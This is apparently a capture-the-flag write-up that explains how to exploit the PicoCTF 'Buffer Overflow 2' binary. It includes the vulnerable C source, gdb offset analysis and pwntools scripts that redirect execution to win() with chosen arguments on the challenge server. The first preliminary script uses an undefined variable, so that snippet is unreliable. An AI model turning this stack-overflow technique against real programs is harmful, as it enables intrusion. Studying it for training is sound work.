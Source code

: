 ```yaml
---
title: "PicoCTF: Buffer Overflow 2"
date: 2024-10-09T14:23:13-05:00
draft: false
tags:
- Buffer Overflow
- Binary Exploitation
- Code Review
- x86
- Pwn
- Pico
---
```


### Description
Buffer Overflow 2 is a binary exploitation challenge that involves overflowing a buffer to not only call the win() function, but also to successfully pass the necessary arguments to it.


### Walkthrough
After downloading the vulnerable binary and its source code, the first thing I did was to view the source code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It is apparent that the binary is using the vulnerable ```gets()``` 
function with a buffer size of 100 bytes. We will need to overflow the buffer and 
call ```win()``` as well as pass in two arguments, ```0xCAFEF00D``` and
```0XF00DF00D```, in order to complete this challenge.

We can also see that we need a dummy flag in order for the program to execute correctly.

```
┌──(kali㉿kali)-[~/Writeups/pico/buff2]
└─$ echo 'pico{debug}' > flag.txt
```

To overflow the buffer, we first need to find the offset of the eip register. eip stands for 
"Extended Instruction Pointer" and as its name suggests, points to the next instruction to be 
executed in x86 systems. We want to write the address of ```win()``` to it. To find the address,
we can analyze ```vuln``` in gdb...

```
┌──(kali㉿kali)-[~/Writeups/pico/buff2]
└─$ gdb vuln
```

... and find the buffer allocation.

![GDB vuln buffer size](/img/pico/buff2/vuln_gets_alloc.png)

Notice that the address of offset ```ebp-0x6c``` is pushed onto the stack and is
read by ```gets()```. This means that after calling the ```gets``` function, there will be
108 (0x6c) bytes of buffer between the start of the buffer and the ```ebp``` register. Note
that the 108 bytes allocated differ from the 100-byte buffer declared in ```vuln.c```. 
Discrepancies like this are usually caused by padding or local variables.


{{< centralize-table >}}
| High Address |
| --- |
| ... |
| eip (4 bytes)|
| ebp (4 bytes)|
| buffer + padding (108 bytes)|
| ... |
| Low Address |
{{< /centralize-table >}}


```eip``` is at a higher address immediately after ```ebp```. Since ```ebp``` is a 4 byte register,
```eip``` is 112 (108 + 4) bytes from the start of the buffer. We will therefore need 112 bytes of padding
in our payload before ```eip``` starts being overwritten. 

Preliminary payload: 112 bytes padding + address of win().

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_main = p32(elf.symbols["main"])

payload_list = [
		padding,
		addr_win
		]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

I didn't get a clear indication as to whether my payload succeeded, so I added a breakpoint
at the ```win()``` function through gdb. If ```win()``` is called, the program will pause at the breakpoint.

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])

payload_list = [
		padding,
		addr_win
		]

payload = b''.join(payload_list)

with open("payload", "wb") as f:
    f.write(payload)

g = gdb.attach(p, gdbscript = '''
        b *win
        r < payload
    ''')

p.sendline(payload)
p.interactive()
```

![win() function stop](/img/pico/buff2/win_stop.png)

We do break, meaning our exploit successfully called ```win()```. Now, we need to add 
the arguments ```0XCAFEF00D``` and ```0XF00DF00D```. Let us take a look at the stack
frame for ```win()```.


{{< centralize-table >}}
| High Address |
| --- |
| ... |
| arg2 (4 bytes) |
| arg1 (4 bytes) |
| eip (4 bytes) |
| ebp (4 bytes) |
| ... |
| Low Address |
{{< /centralize-table >}}


Unlike x64 binaries, all function arguments in x86 programs are passed directly onto the stack.
After jumping to ```win()```, we will also need to overflow ```eip``` before we can pass in arg1 and arg2.
In my exploit script I set ```eip``` to be overflowed with the address of ```main()``` for the sake of
having a valid return address, but any 4 byte value should work since the flag is being printed directly in ```win()```.

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])
addr_main = p32(elf.symbols["main"])

arg1 = p32(0xCAFEF00D)
arg2 = p32(0xF00DF00D)

payload_list = [
        padding,
        addr_win,
        addr_main,
        arg1,
        arg2
        ]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

![Local binary flag](/img/pico/buff2/local_flag.png)

Our exploit was successful. Now all that's left to do is to change the target from
the local binary to the remote pico server.

```python
#!/usr/bin/python3

from pwn import *


p = remote("saturn.picoctf.net", 54042) # Changed from binary to pico server.
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])
addr_main = p32(elf.symbols["main"])

arg1 = p32(0xCAFEF00D)
arg2 = p32(0xF00DF00D)

payload_list = [
        padding,
        addr_win,
        addr_main,
        arg1,
        arg2
        ]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

![Pico flag](/img/pico/buff2/flag.png)